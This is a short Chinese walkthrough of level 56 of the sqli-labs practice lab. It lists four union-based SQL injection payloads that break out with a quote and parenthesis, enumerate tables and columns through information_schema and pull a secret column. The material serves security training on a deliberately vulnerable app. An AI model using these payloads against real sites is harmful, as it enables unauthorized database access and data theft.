

## sql-labs第五十六关

五十六关需要单引号和括号

~~~ cmd 
?id=-1 union select 1,2,3--+
~~~

~~~ cmd
?id=-1’) union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()--+
~~~

~~~ cmd
?id=-1') union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() and table_name="SXKFOWFC9B"--+
~~~

~~~ cmd
?id=-1') union select 1,group_concat(secret_7W08),3 from SXKFOWFC9B--+
~~~

由此成功